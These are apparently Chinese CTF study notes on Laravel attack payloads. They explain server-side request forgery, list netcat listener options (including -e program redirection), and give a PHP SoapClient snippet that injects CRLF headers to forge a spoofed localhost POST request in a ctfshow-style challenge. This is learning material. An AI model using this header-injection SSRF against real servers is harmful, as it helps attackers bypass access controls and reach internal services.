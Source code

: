 - 访问后发现

![img](https://cdn.nlark.com/yuque/0/2023/png/29405061/1678851854699-ae1dab13-c522-4ebc-90aa-8af86ba54c79.png)

- 直接访问这个rce

# 从0开始Laravel

## 常用payload

### ssrf+反序列化

#### ssrf

1. 服务器端请求伪造（SSRF）是指攻击者能够从易受攻击的Web应用程序发送精心设计的请求的对其他网站进行攻击。(利用一个可发起网络请求的服务当作跳板来攻击其他服务)
2. 攻击者能够利用目标帮助攻击者访问其他想要攻击的目标
3. 攻击者要求服务器为他访问URL
4. 可用于内网访问

#### netstate

https://zhuanlan.zhihu.com/p/397058259

```shell
.\nc64.exe -lvp 9999

监听9999端口
-l： 开启监听
-p：指定端口
-t： 以telnet形式应答
-e：程序重定向
-n：以数字形式表示ip
-v：显示执行命令过程
-z : 不进行交互，直接显示结果
-u ：使用UDP协议传输
-w : 设置超时时间
```

#### 本地测试

- **SoapClient::__construct**(?string $wsdl, array $options = []) ,SoapClient类，
- 第二个参数中 uri指nameSpacelocation 
- location：The URL of the SOAP server to send the request to.

```php
<?php
$ua="ctfshow\r\nx-forwarded-for:127.0.0.1,1\r\nContent-Type:application/x-www-form-urlencoded\r\nContent-Length:13\r\n\r\ntoken=ctfshow";
$client=new SoapClient(null,array('uri'=>"127.0.0.1",'location'=>"http://127.0.0.1:9999",);
$client->getFlag();  //调用不存在的方法，会自动调用——call()函数来发送请求
?>
```
